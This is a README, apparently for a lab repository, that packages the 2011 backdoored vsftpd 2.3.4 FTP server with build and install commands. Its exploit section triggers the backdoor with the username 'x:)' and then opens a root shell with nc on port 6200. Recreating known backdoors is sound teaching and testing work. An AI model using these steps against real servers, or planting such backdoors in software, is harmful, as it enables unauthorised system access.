 # vsftpd-backdoor
This is a backdoored version of vsftpd which has been packaged and configured for the convience of performing an example backdoor into a system.
vsftpd is an FTP server which was created by Chris Evans and is available at vsftpd.beasts.org, this repo uses version 2.3.4.

This backdoor which was maliciously added to the archive was introduced into the vsftpd-2.3.4 2011 
but has since been removed, thus the reason for this repository. 

The source for vsftp was https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz and the diff used in this repo was taken from http://pastebin.com/AetT9sS5.

## Changes
* vsftpd.conf to allow remote user login.
* Make file to work with patch.
* Core code, which now includes patch.

## Requirements
These installation details are for ubuntu but should be able to be adapted for most distros.

`apt-get install build-essential`

`apt-get install libpam0g-dev`

## Installation
Create users for use with FTP. May not have to do this if you previously used apt-get for vsftpd.

`install -v -d -m 0755 /var/ftp/empty`

`install -v -d -m 0755 /home/ftp`

`groupadd -g 47 vsftpd`

`groupadd -g 45 ftp`  

`useradd -c "vsftpd User"  -d /dev/null -g vsftpd -s /bin/false -u 47 vsftpd`

`useradd -c anonymous_user -d /home/ftp -g ftp    -s /bin/false -u 45 ftp`

Use make to create the executable.

`make`

Install vsftpd and its modified configurations.

`install -v -m 755 vsftpd        /usr/sbin/vsftpd`

`install -v -m 644 vsftpd.8      /usr/share/man/man8`

`install -v -m 644 vsftpd.conf.5 /usr/share/man/man5` 

`install -v -m 644 vsftpd.conf   /etc`

## Running the exploit

1. On one node run `vsftpd`

2. On another node connected to the network login to the server by using: `ftp <server address>`

3. Once connected use the username 'x:)' with any password.

4. Once the terminal hangs open another terminal and use `nc <server address> 6200` and you're in!


